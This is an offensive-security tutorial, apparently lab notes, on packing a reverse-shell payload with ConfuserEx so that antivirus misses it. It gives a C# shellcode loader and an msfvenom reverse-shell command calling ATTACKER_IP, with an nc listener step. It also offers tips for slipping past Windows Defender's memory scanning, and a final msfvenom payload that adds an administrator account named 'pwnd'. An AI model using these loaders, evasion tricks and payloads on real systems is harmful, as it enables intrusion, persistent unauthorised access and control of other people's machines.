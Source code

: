 # Packers

Packers are pieces of software that take a program as input and transform it so that its structure looks different, 
but their functionality remains exactly the same. Packers do this with two main goals in mind:

* Compress the program so that it takes up less space.
* Protect the program from reverse engineering in general.

Packers can also obfuscate malware without much effort. There are quite a large number of packers, including UPX, 
MPRESS, Themida, and many others.

If an AV is catching a reverse shell executable as malicious because it matches a known signature, using a packer 
will transform the reverse shell executable so that it does not match any known signatures while on disk. As a result, 
you should be able to distribute your payload to any machine's disk without much problem.

Some AV solutions could still catch the packed application:
* While the original code might be transformed into something unrecognisable,the packed executable contains a stub 
with the unpacker's code. If the unpacker has a known signature, AV solutions might still flag any packed executable 
based on the unpacker stub alone.
* At some point, the application will unpack the original code into memory so that it can be executed. If the AV 
solution can do in-memory scans, it might still be detected after the code is unpacked.

## Packing

`UnEncStagelessPayload.cs`:

```text
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {0xfc,0x48,0x83,...,0xda,0xff,0xd5 };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Generate a new shellcode and put it into the shellcode variable of the code:

    C:\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp

Compile the payload in the Windows machine:

    C:\> csc UnEncStagelessPayload.cs

Use the ConfuserEx packer: 

1. Select the desktop as the base directory, then drag and drop the executable on the interface.
2. Go to the settings tab and select the payload. 
3. Click the "+" button to add settings to the payload. This creates a rule named "true". 
4. Enable compression.
5. Edit the "true" rule and set it to the Maximum preset.
6. Go to the "Protect!" tab and click "Protect".
7. set up an `nc` listener on the attack machine.
8. Execute the payload.

Works! But ... when running a command on the reverse shell, the AV notices it and kills it. Windows Defender will 
hook certain Windows API calls and do in-memory scanning whenever such API calls are used. In the case of any shell 
generated with msfvenom, `CreateProcess()` will be invoked and detected.

## Now what?

* Just wait a bit. Try spawning the reverse shell again and wait for around 5 minutes before sending any command. 
You'll see the AV won't complain anymore. The reason for this is that scanning memory is an expensive operation. 
Therefore, the AV will do it for a while after your process starts but will eventually stop.
* Use smaller payloads. The smaller the payload, the less likely it is to be detected. If you use msfvenom to get a 
single command executed instead of a reverse shell, the AV will have a harder time detecting it. You can try with 

```text
msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp 
```

